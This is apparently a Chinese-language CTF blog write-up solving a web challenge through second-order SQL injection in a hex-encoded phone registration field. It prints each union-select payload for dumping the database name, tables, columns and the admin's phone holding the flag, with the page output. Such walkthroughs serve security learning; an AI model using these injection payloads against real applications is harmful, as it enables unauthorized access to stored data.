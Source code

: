 ```yaml
---
title: "web 狗之writeup--phone"
author: Neal
description: ""
tags: [CTF, WEB]
categories: [CTF]
date: "2018-08-23"
---
```


![WechatIMG7.jpeg](https://i.loli.net/2018/08/23/5b7eb1fbdb1b1.jpeg)

鄙人不才，只能做个 web 狗了。那就好好学习 web 吧。拼命地刷 writeup 就好了。上题目，[Phone number](http://106.75.72.168:3333/login.php)。提示只有 phone number is a good thing.

打开链接可以看到是一个登陆页面，查看源代码，没有什么东西。不过，这个页面还有个注册页面，注册页面有用户名密码以及 phone，查看其源代码也没有什么异常情况。这道题初步看来应该是一道 sql 注入题了，那么注入点在哪呢？当然是 phone 了（来自于上帝视角）。如果正经地来说还是因为题目的提示啦。

注入点的确就是 phone，不过是要使用 16进制字符。为什么呢？上帝告诉我的，我也不知道。好吧，接下来就是 sql 注入四步曲了，爆数据库名，爆表名，爆字段，最后查数据，拿 flag。是不是很开心！

## 正常用户

首先，我们首先注册一个正常用户，注册之后登录，可以看到页面。这里面有一个 check 的按钮，点击一下，可以看到页面提示 There only 369 people use the same phone as you。查看源代码，可以看到注释里面有一句话：听说admin的电话藏着大秘密哦，这也是一个小提示。这里面的369应该就是通过 sql 语句从数据库拿到的，语句可能就是类似于 `select count(*) from user where phonenum = 12` 这种的，从而查出和你电话号码一样的用户数了，那么我可以信誓旦旦地告诉你，这就是一个注入点啦！

## 数据库名

因为 phone 可能使用的是数字，所以这是一个数字型的注入。那么，我买可以随便注册一个用户名了，首先获取数据库名的语句是 `1 and 1 = 2 union select database()`，把这个语句转化为16进制字符。将这个16进制字符串作为 phone 来进行注册，这里注意的一个点就是，前台对于 phone 的长度做了限制， `maxlength="11"`，打开开发者工具设置大一点就可以了。注册成功之后，我么就可以看到：

Hello, txt1
Your phone is 1 and 1 = 2 union select database().
Click on the link and you'll know how many people use the same phone as you.

那么我们可以继续点击 check 按钮，页面显示

There only 0 people use the same phone as you
There only webdb people use the same phone as you

这里的 webdb 很显然就是数据库名了。

## 表名

接下来就是表名，这里比较麻烦的就是注入一次，就要注册一次，而且用户名不可以重复。算了，继续吧。构造查表名的语句：`1 union select table_name from information_schema.tables where table_schema = database()`,转化为16进制字符继续注册。再继续登录，点击 check:

There only 29891 people use the same phone as you
There only user people use the same phone as you

现在可以看出表名就是 user 了。

## 字段名

同样的配方，还是同样的味道。查询语句：`1 union select column_name from information_schema.columns where table_name="user"`，点击 check，就会显示出列名：

There only 29893 people use the same phone as you
There only Host people use the same phone as you
There only User people use the same phone as you
There only Password people use the same phone as you
There only Select_priv people use the same phone as you
There only Insert_priv people use the same phone as you
There only Update_priv people use the same phone as you
There only Delete_priv people use the same phone as you
There only Create_priv people use the same phone as you
There only Drop_priv people use the same phone as you
There only Reload_priv people use the same phone as you
There only Shutdown_priv people use the same phone as you
There only Process_priv people use the same phone as you
There only File_priv people use the same phone as you
There only Grant_priv people use the same phone as you
There only References_priv people use the same phone as you
There only Index_priv people use the same phone as you
There only Alter_priv people use the same phone as you
There only Show_db_priv people use the same phone as you
There only Super_priv people use the same phone as you
There only Create_tmp_table_priv people use the same phone as you
There only Lock_tables_priv people use the same phone as you
There only Execute_priv people use the same phone as you
There only Repl_slave_priv people use the same phone as you
There only Repl_client_priv people use the same phone as you
There only Create_view_priv people use the same phone as you
There only Show_view_priv people use the same phone as you
There only Create_routine_priv people use the same phone as you
There only Alter_routine_priv people use the same phone as you
There only Create_user_priv people use the same phone as you
There only Event_priv people use the same phone as you
There only Trigger_priv people use the same phone as you
There only Create_tablespace_priv people use the same phone as you
There only ssl_type people use the same phone as you
There only ssl_cipher people use the same phone as you
There only x509_issuer people use the same phone as you
There only x509_subject people use the same phone as you
There only max_questions people use the same phone as you
There only max_updates people use the same phone as you
There only max_connections people use the same phone as you
There only max_user_connections people use the same phone as you
There only plugin people use the same phone as you
There only authentication_string people use the same phone as you
There only id people use the same phone as you
There only username people use the same phone as you
There only phone people use the same phone as you


可以看到已经出现很多列名了，我们可以看到一些比较关键的列名，比如 username 以及 phone。

## Flag

哈哈，最后一步了！Flag，马上就可以得到啦！由于之前的提示，我们可以知道 admin 的 phone 很重要，那么我们的语句就应该是，必须是：`1 union select phone from webdb.user where username = "admin"`，点击 check，显示：

There only 29894 people use the same phone as you
There only flag{6dd303b0-8fce-2396-9ad8-d9f7a72f84b0} people use the same phone as you
There only 1555555 people use the same phone as you
There only 15500956659 people use the same phone as you
There only 1 people use the same phone as you
There only 123456 people use the same phone as you
There only 111111111111111 people use the same phone as you
There only 11111111111 people use the same phone as you
There only 12345678912 people use the same phone as you
There only 111111 people use the same phone as you

哈哈，常规套路，这个 wp 除了浏览器没有使用任何第三方工具即可完成，是不是很方便。不过我的 writeup 也是站在巨人的肩膀上完成的。

